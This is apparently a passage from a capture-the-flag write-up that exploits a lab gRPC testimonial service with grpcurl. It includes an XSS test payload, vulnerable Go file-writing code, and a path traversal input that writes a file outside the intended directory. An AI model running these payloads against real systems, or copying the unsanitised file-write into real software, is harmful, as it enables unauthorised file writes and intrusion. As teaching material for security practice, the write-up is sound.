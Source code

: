 Try again to invoke the RPC.

```bash
./grpcurl -plaintext 127.0.0.1:50045 RickyService.TestimonialSubmission

Error invoking method "RickyService.TestimonialSubmission": failed to query for service descriptor "RickyService": server does not support the reflection API
```

According to the docs:

> To use `grpcurl` on servers that do not support reflection, you can use `.proto` source files.

> In addition to using `-proto` flags to point `grpcurl` at the relevant proto source file(s), you may also need to supply `-import-path` flags to tell `grpcurl` the folders from which dependencies can be imported.

```bash
./grpcurl -plaintext -d '{"customer": "test", "testimonial": "test"}' -import-path challenge/pb/ -proto ptypes.proto 127.0.0.1:50045 RickyService.SubmitTestimonial

{
  "message": "Testimonial submitted successfully"
}
```

When we check the webpage, we will see our submission! We've essentially bypassed the blacklist filter by submitting the testimonial directly.

Let's confirm that.

```bash
./grpcurl -plaintext -d '{"customer": "<script>alert(0)</script>", "testimonial": "test"}' -import-path challenge/pb/ -proto ptypes.proto 127.0.0.1:50045 RickyService.SubmitTestimonial

ERROR:
  Code: Unknown
  Message: open public/testimonials/<script>alert(0)</script>: no such file or directory
```

It failed to open that file, because it failed to read the filename. Remember:

```go
err := os.WriteFile(fmt.Sprintf("public/testimonials/%s", req.Customer), []byte(req.Testimonial), 0644)
if err != nil {
	return nil, err
}
```

How about directory traversal? If we input `../../../../test.txt`, will it be written to `/`?

```bash
./grpcurl -plaintext -d '{"customer": "../../../../test.txt", "testimonial": "test"}' -import-path challenge/pb/ -proto ptypes.proto 127.0.0.1:50045 RickyService.SubmitTestimonial

{
  "message": "Testimonial submitted successfully"
}
```
